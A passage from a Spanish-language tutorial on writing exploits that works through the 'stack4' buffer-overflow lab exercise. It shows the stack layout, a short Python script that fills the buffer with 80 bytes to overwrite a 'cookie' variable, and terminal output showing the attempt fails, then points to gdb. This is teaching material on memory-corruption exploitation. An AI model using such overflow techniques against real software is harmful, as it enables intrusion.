 ![](<../../../.gitbook/assets/imagen (97).png>)

Información útil del mapa de la pila:

```c
[ebp-0x54]  = buf
[ebp-0x4]   = cookie
[ebp]       = ebp anterior guardado
[ebp+0x4]   = dirección de retorno
```

#### Solución anterior: modificar valor de cookie <a href="#solucion-anterior-modificar-valor-de-cookie" id="solucion-anterior-modificar-valor-de-cookie"></a>

Probamos con la misma estrategia que en los problemas anteriores, modificando el valor de `cookie` para que el condicional se evalúe como verdadero.

```
#exploit.py

#!/usr/bin/python
output = "A" * 80 + "\x00\x0a\x0d\x00"
print output
```

Pero observamos que el mensaje ganador no se imprime:

```
user@abos:~$ python exploit.py |./stack4        
buf: bffff5b4 cookie: bffff604
user@abos:~$
```

Si debugeamos el programa vulnerable con [`gdb`](https://fundacion-sadosky.github.io/guia-escritura-exploits/herramientas.html#debugger-gdb) podemos observar porqué.
